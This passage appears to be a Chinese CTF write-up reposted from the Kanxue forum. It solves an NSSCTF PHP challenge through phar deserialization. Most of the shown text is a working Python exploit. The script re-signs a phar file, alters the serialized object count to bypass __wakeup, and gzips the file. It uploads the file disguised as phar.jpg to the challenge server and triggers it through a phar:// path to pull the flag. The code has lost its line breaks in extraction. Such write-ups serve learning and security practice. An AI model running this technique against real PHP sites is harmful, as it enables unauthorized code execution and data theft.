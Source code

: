   
修改签名并上传文件，访问后触发phar反序列化拿到flag。  
exp:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import requestsfrom hashlib import sha1import gzipimport redef getPhar():    with open('phar.phar', 'rb') as file:        f = file.read()    s = f[:-28] # 获取要签名的数据（对于sha1签名的phar文件，文件末尾28字节为签名的格式）    s = s.replace(b'3:{', b'4:{')# 绕过__wakeup    h = f[-8:] # 获取签名类型以及GBMB标识，各4个字节    newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB)    return gzip.compress(newf)# 进行gzip压缩 def upload(file):    burp0_url = "http://1.14.71.254:28403/upload.php"    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://1.14.71.254:28403", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryfXBfemuGHEVNBhN8", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://1.14.71.254:28403/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}    burp0_data = b"------WebKitFormBoundaryfXBfemuGHEVNBhN8\r\nContent-Disposition: form-data; name=\"file\"; filename=\"phar.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n" + file + b"\r\n------WebKitFormBoundaryfXBfemuGHEVNBhN8\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\n\r\n------WebKitFormBoundaryfXBfemuGHEVNBhN8--\r\n"    # 注意数据类型为byte类型，应该file为byte类型，相同数据类型才能合并    requests.post(burp0_url, headers=burp0_headers, data=burp0_data) def getFlag():    burp0_url = "http://1.14.71.254:28403/"    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36", "Origin": "http://1.14.71.254:28403", "Content-Type": "application/x-www-form-urlencoded", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://1.14.71.254:28403/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}    burp0_data = {"file": "phar://./upload/phar.jpg/test.txt", "submit": ''}    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)    return re.findall('(NSSCTF\{.*?\})', res.text)[0] if __name__ == '__main__':    upload(getPhar())    print(getFlag())

  
运行得到flag。![](https://gitee.com/fuli009/images/raw/master/public/20230301180822.png)ps：注意如果用burp代理抓包上传gzip压缩后的phar可能会有bug，burp会改变gzip数据，导致无法识别phar文件  

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230301180823.png)

  

 **看雪ID：pank1s**

https://bbs.kanxue.com/user-home-952339.htm

*本文由看雪论坛 pank1s 原创，转载请注明来自看雪社区  
[![](https://gitee.com/fuli009/images/raw/master/public/20230301180824.png)](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458493067&idx=2&sn=098f64ed7bb35149efbb12c7a9551b08&chksm=b18e900186f91917b83a68408448658fba17a6a55011c39e7b1c504b42539710cd466e35fa43&scene=21#wechat_redirect)  

 **#** **  往期推荐  
**
